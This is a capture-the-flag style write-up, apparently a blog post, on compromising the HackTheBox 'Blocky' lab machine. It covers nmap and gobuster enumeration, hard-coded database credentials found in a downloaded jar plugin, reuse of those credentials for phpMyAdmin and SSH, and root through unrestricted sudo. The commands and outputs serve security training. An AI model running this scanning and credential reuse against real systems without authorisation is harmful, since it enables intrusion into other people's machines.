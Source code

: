 ```yaml
---
layout: post
title: Blocky
---
```


# HackTheBox - Blocky
Blocky is one of the easiest machine on the HackTheBox, based on misconfiguration and Hard-coded credentials in java class.
![Blocky](https://github.com/user-attachments/assets/0fe78f1f-3513-46ab-b990-c1329189c5d1)



## Reconnaissance and Enumeration
Let's start with typical nmap scan to check open ports.
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ nmap -sC -sV -T5 blocky.htb 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-24 03:38 CET
Nmap scan report for blocky.htb (10.10.10.37)
Host is up (0.038s latency).
Not shown: 996 filtered tcp ports (no-response)
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
|_http-generator: WordPress 4.8
8192/tcp closed sophos
Service Info: Host: 127.0.1.1; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.42 seconds
```
As we can see ports 21, 22 and 80 are open with WordPress page.

![1](https://github.com/user-attachments/assets/5b0c6159-dd7e-42ad-94e7-1f5730dec9b8)

I used Gobuster to find directories on the server.
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://blocky.htb    
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://blocky.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/wiki                 (Status: 301) [Size: 307] [--> http://blocky.htb/wiki/]
/wp-content           (Status: 301) [Size: 313] [--> http://blocky.htb/wp-content/]
/plugins              (Status: 301) [Size: 310] [--> http://blocky.htb/plugins/]
/wp-includes          (Status: 301) [Size: 314] [--> http://blocky.htb/wp-includes/]
/javascript           (Status: 301) [Size: 313] [--> http://blocky.htb/javascript/]
/wp-admin             (Status: 301) [Size: 311] [--> http://blocky.htb/wp-admin/]
/phpmyadmin           (Status: 301) [Size: 313] [--> http://blocky.htb/phpmyadmin/]
```



Let's check the Gobuster results. We can see `/phpMyAdmin`, which will definitely be useful in the later stages.
Among the interesting findings is the `/plugins` directory, which contains two files: BlockyCore.jar and griefprevention-1.11.2-3.1.1.298.jar. Let's download them and see what's inside.

![Zrzut ekranu 2025-02-24 o 03 56 52](https://github.com/user-attachments/assets/a745b638-1580-413d-bb3f-4d777b15f79d)
![Zrzut ekranu 2025-02-24 o 03 58 12](https://github.com/user-attachments/assets/337dd70a-d10b-40af-b5b5-813ed1681172)

From what we can see, it's a Java class file. We can open it using an online or code editor. I opened it in IntelliJ to check what this class contains.

<img width="860" alt="Zrzut ekranu 2025-02-24 o 03 58 42" src="https://github.com/user-attachments/assets/c1e6f394-d2d8-4679-ab6e-4090e732f184" />


The class contains hard-coded credentials for database access. We previously discovered the `/phpmyadmin` directory, so let's check if these login credentials work there.

![Zrzut ekranu 2025-02-24 o 03 59 45](https://github.com/user-attachments/assets/3b673e9b-ca50-4b95-9244-24a1911c48c9)

Bingo, login and password worked, and now we have full access to the entire database, including user information and other stored data.

![Zrzut ekranu 2025-02-24 o 04 01 05](https://github.com/user-attachments/assets/74f02629-bdd8-4fc5-ac57-2a914f071c52)

I found the `wp-users` table, which contains a user named Notch. Maybe we can try logging into SSH with that username and hard-coded password.
___
### Exploitation
```
┌──(vq4s㉿kali)-[~/Downloads]
└─$ ssh notch@blocky.htb
notch@blocky.htb's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Fri Jul  8 07:16:08 2022 from 10.10.14.29
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

notch@Blocky:~$ id
uid=1000(notch) gid=1000(notch) groups=1000(notch),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```
```
otch@Blocky:~$ ll
total 40
drwxr-xr-x 5 notch notch 4096 Jul  8  2022 ./
drwxr-xr-x 3 root  root  4096 Jul  2  2017 ../
-rw------- 1 notch notch    1 Dec 24  2017 .bash_history
-rw-r--r-- 1 notch notch  220 Jul  2  2017 .bash_logout
-rw-r--r-- 1 notch notch 3771 Jul  2  2017 .bashrc
drwx------ 2 notch notch 4096 Jul  2  2017 .cache/
drwxrwxr-x 7 notch notch 4096 Jul  2  2017 minecraft/
drwxrwxr-x 2 notch notch 4096 Jul  2  2017 .nano/
-rw-r--r-- 1 notch notch  655 Jul  2  2017 .profile
-r-------- 1 notch notch   33 Feb 23 20:35 user.txt
notch@Blocky:~$ wc user.txt 
 1  1 33 user.txt
```
Perfect hit! We are logged as Notch user, so we can check user flag.
___
### Privilege Escalation
As always, I checked `sudo -l` command, this command is used to display a list of commands which user can execute with root privilages, in this case we can use every command.
```
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```
Since we can execute all commands, we can simply switch to the root user and retrieve the root flag.
```
notch@Blocky:~$ sudo su - root
root@Blocky:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Blocky:~# cd /root/
root@Blocky:~# ll
total 28
drwx------  3 root root 4096 Feb 23 20:35 ./
drwxr-xr-x 23 root root 4096 Jun  2  2022 ../
-rw-------  1 root root    1 Dec 24  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Jun  7  2022 .cache/
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-r--------  1 root root   33 Feb 23 20:35 root.txt
root@Blocky:~# wc root.txt 
 1  1 33 root.txt
```






